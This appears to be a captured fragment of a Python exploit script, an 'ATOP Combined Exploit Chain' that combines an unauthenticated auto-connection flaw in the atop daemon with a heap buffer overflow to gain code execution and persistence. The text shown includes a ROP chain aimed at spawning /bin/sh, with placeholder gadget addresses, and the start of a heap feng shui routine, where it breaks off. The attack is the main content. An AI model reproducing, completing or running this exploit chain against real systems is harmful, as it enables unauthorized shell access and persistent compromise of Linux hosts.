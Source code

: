     exploit = AutoConnectionExploit(listen_port)
    exploit.exploit()

if __name__ == "__main__":
    main()


combined_exploit_chain
[16:49:20]
#!/usr/bin/env python3
"""
ATOP Combined Exploit Chain
Combines TIER 1 vulnerabilities for maximum impact

Phase 1: Automatic Connection Exploitation (CWE-306)
Phase 2: Heap Buffer Overflow (CWE-122) 
Phase 3: Code Execution & Persistence

Based on Security Specialist's recommended exploitation sequence
"""

import socket
import threading
import time
import sys
import struct
import subprocess
import os

class ATOPExploitChain:
    def __init__(self, target_host="127.0.0.1", daemon_port=4321):
        self.target_host = target_host
        self.daemon_port = daemon_port
        self.malicious_server = None
        self.exploit_success = False
        
    def create_rop_chain(self):
        """
        Create ROP chain for reliable code execution
        Targets x64 Linux systems
        """
        # Common ROP gadgets for execve("/bin/sh")
        rop_chain = struct.pack("<Q", 0x4141414141414141)  # Placeholder for actual gadgets
        rop_chain += struct.pack("<Q", 0x4242424242424242)  # pop rdi; ret
        rop_chain += struct.pack("<Q", 0x4343434343434343)  # "/bin/sh" string address
        rop_chain += struct.pack("<Q", 0x4444444444444444)  # pop rsi; ret  
        rop_chain += struct.pack("<Q", 0x0000000000000000)  # NULL
        rop_chain += struct.pack("<Q", 0x4545454545454545)  # pop rdx; ret
        rop_chain += struct.pack("<Q", 0x0000000000000000)  # NULL
        rop_chain += struct.pack("<Q", 0x4646464646464646)  # execve syscall
        
        return rop_chain
    
    def create_heap_feng_shui_payload(self):
        """
        Create heap feng shui payload for reliable exploitation
        Manipulates heap layout for predictable overflow
        """
        # Heap spray to control memory layout
        heap_chunks = []
        